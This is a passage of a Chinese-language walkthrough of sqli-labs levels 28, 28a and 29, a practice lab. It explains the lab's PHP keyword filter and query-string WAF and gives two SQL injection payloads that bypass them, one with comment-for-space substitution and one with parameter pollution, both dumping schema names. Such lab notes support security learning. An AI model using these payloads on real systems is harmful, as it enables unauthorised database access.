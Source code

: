 ![image-20200911203242555](sql-lab.assets/image-20200911203242555.png)

这样，所以我们要换个思路。但是还是很好绕过的

![image-20200913202913405](sql-lab.assets/image-20200913202913405.png)

## less28&&less28a

这两个都是布尔注入的一些绕过，这里其实更值得注意的是php语法：

~~~php
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out spaces.
~~~

这里的i 代表的是不区分大小写，s是啥意思。。。看了看正则表达式的语法，才知道这是匹配所有的空白包括换行 // 中间夹杂的是正则表达式。

## less29

~~~php
$qs = $_SERVER['QUERY_STRING'];
~~~

看样子是这一句上了waf,所以查了查

'QUERY_STRING'

query string（查询字符串），如果有的话，通过它进行页面访问。

两个payload

~~~
id=-1'union/**/select/**/1,group_concat(schema_name),1/**/from/**/information_schema.schemata--+
~~~

~~~
?id=1&id=0' union selEct 1,group_concat(schema_name),2 from information_schema.schemata;%23
~~~

看了半天的wp才发现在根目录也有一个tomcat的压缩包，里面有相关的waf解释。
